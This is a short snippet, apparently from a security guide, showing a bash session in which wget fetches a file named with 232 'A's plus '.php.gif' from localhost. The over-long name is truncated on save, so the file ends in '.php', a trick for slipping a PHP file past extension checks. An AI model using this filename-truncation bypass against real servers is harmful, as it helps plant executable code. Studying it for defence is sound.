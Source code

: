 ```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```